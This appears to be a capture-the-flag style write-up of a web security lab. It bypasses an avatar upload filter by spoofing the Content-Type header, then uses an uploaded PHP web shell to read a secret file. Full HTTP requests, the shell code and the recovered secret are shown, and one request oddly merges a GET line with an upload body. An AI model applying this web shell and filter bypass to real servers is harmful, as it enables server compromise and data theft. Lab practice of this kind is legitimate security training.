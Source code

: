 *This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.You can log in to your own account using the following credentials: wiener:peter*

I logged in with my credentials and uploaded a my `exploit.php` file , observing the HTTP traffic. I noticed the following in the response: 

```Burp 
HTTP/2 403 Forbidden
Date: Tue, 30 Apr 2024 11:55:52 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 231

Sorry, file type application/x-php is not allowed
        Only image/jpeg and image/png are allowed
Sorry, there was an error uploading your file.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

I then saw the request and noticed that they verify based on the MIME type for images: 

```
POST /my-account/avatar HTTP/2
Host: 0a7600c103a8bb8f80073f75003600c6.web-security-academy.net
Cookie: session=ExuMCH5UdTGmKoqMTFjS22diPajEXRbQ
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------21389428739649215862945163112
Content-Length: 542
Origin: https://0a7600c103a8bb8f80073f75003600c6.web-security-academy.net
Referer: https://0a7600c103a8bb8f80073f75003600c6.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------21389428739649215862945163112
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php
echo file_get_contents('/home/carlos/secret');
?>

-----------------------------21389428739649215862945163112
Content-Disposition: form-data; name="user"

wiener
-----------------------------21389428739649215862945163112
Content-Disposition: form-data; name="csrf"

IBSqtpKjgW9qGjPuuUIi9r3jlTvLfiyS
-----------------------------21389428739649215862945163112--
```

Hence I modified the `Content-Type` to as such below, edited the request line and sent it to the repeater: 

```
GET /files/avatars/exploit.php HTTP/2
Host: 0a7600c103a8bb8f80073f75003600c6.web-security-academy.net
Cookie: session=ExuMCH5UdTGmKoqMTFjS22diPajEXRbQ
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------338993837615724743744070294440
Content-Length: 539
Origin: https://0a7600c103a8bb8f80073f75003600c6.web-security-academy.net
Referer: https://0a7600c103a8bb8f80073f75003600c6.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------338993837615724743744070294440
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php
echo file_get_contents('/home/carlos/secret');
?>

-----------------------------338993837615724743744070294440
Content-Disposition: form-data; name="user"

wiener
-----------------------------338993837615724743744070294440
Content-Disposition: form-data; name="csrf"

IBSqtpKjgW9qGjPuuUIi9r3jlTvLfiyS
-----------------------------338993837615724743744070294440--
```

Was provided the secret in the response: 

```
HTTP/2 200 OK
Date: Tue, 30 Apr 2024 12:00:46 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

Rpx2ZmZ3mHmbNWt2mTNatNZbb38I3JiK
```